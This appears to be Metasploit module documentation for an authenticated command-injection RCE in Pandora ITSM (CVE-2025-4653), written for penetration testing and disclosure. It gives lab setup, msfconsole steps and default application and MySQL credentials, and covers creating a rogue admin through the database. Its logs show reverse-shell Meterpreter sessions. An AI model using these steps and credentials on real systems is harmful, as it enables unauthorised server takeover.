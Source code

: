 ## Vulnerable Application
Pandora ITSM is a platform for Service Management & Support including a Helpdesk for support
and customer service teams, aligned with ITIL processes.
This module exploits a command injection vulnerability in the `name` backup setting at the
application setup page of Pandora ITSM. This can be triggered by generating a backup with a
malicious payload injected at the `name` parameter.
You need to have admin access at the Pandora ITSM  Web application in order to execute this RCE.
This access can be achieved by knowing the admin credentials to access the web application or
leveraging a default password vulnerability in Pandora ITSM that allows an attacker to access
the Pandora FMS ITSM database, create a new admin user and gain administrative access to the
Pandora ITSM Web application. This attack can be remotely executed over the WAN as long as the
MySQL services are exposed to the outside world.
This issue affects all ITSM Enterprise editions up to `5.0.105` and is patched at `5.0.106`.

The following releases were tested.

**Pandora ITSM Releases:**
* Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97 on Ubuntu 22.04
* Pandora ITSM Enterprise Edition 5.0.105 Build 250129 MR98 on Ubuntu 22.04

## Installation steps to install Pandora ITSM Enterprise Edition on Ubuntu 22.04
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Register for a free trial [here](https://pandorafms.com/en/itsm/free-trial/).
* Install a plain Ubuntu 22.04 VM image.
* Log in at the Ubuntu VM with root.
* Run `apt update && apt upgrade` to get the latest updates.
* Run the following command `curl -SsL https://pfms.me/deploy-pandora-itsm > deploy-pandora-itsm`.
* Check the file `deploy-pandora-itsm` and find the `install_script` variable that refers to `itsm_deploy_enterprise_ubuntu_2204.sh`.
* `install_script='https://packages.pandorafms.com/projects/deploy/itsm/iBxbqHhtHkOnzp1rINvG/itsm_deploy_enterprise_ubuntu_2204.sh'`
* Use the `url` and download the file with `curl` and store it locally in the file `install.sh`.
* `curl -LSs https://packages.pandorafms.com/projects/deploy/itsm/iBxbqHhtHkOnzp1rINvG/itsm_deploy_enterprise_ubuntu_2204.sh > install.sh`
* Edit `install.sh` with your favorite editor and change the following line FROM:
* INTEGRIA_PACKAGE_ENT="https://packages.pandorafms.com/c5553382c7268ea9d69dd2f889029162/latest/PandoraITSM_enterprise-latest.tar.gz"
* TO
* INTEGRIA_PACKAGE_ENT="https://packages.pandorafms.com/c5553382c7268ea9d69dd2f889029162/LTS/PandoraITSM_enterprise-lts.tar.gz"
* Run `chmod +x install.sh` and execute the script `./install.sh`.
* After successful installation of Pandora ITSM you can access the application using the `webui` via `http://your_ip/pandoraitsm`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/pandora_itsm_auth_rce_cve_2025_4653`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is optional and is the username (default: admin) to authenticate with the Pandora ITSM application.

### PASSWORD
This option is optional and is the password (default: integria) in plain text to authenticate with the Pandora ITSM application.

### DB_USER
This option is required and is the username (default: pandoraitsm) to authenticate with the Pandora ITSM MySQL database.

### DB_PASSWORD
This option is required and is the password (default: P4ndor4.itsm) in plain text to authenticate with the Pandora ITSM MySQL database.

### DB_PORT
This option is required and is the MySQL database port (default: 3306) to connect to the database.

## Scenarios
### Pandora ITSM 5.0.104 on Ubuntu 22.04 -  Unix/Linux Command target
Attack scenario: use the default admin credentials (admin:integria) of the Pandora ITSM application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_itsm_auth_rce_cve_2025_4653) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97
[*] Trying to log in with admin credentials admin:integria at the Pandora ITSM Web application.
[*] Succesfully authenticated at the Pandora ITSM Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.6
[*] Meterpreter session 45 opened (192.168.201.10:4444 -> 192.168.201.6:37374) at 2025-07-19 10:21:00 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-144-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandoraitsm
meterpreter >
```
### Pandora ITSM 5.0.104 on Ubuntu 22.04 -  Unix/Linux Command target
Attack scenario: use the default database credentials (pandoraitsm:P4ndor4.itsm) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_itsm_auth_rce_cve_2025_4653) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora ITSM Enterprise Edition 5.0.104 Build 240802 MR97
[*] Trying to log in with admin credentials admin:xxx at the Pandora ITSM Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials hhmxr:YGMWzFjE9R for access at the Pandora ITSM Web application.
[*] Trying to log in with new admin credentials hhmxr:YGMWzFjE9R at the Pandora ITSM Web application.
[*] Succesfully authenticated at the Pandora ITSM Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.6
[*] Meterpreter session 46 opened (192.168.201.10:4444 -> 192.168.201.6:38870) at 2025-07-19 10:22:43 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-144-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandoraitsm
meterpreter >
```

## Limitations
None.
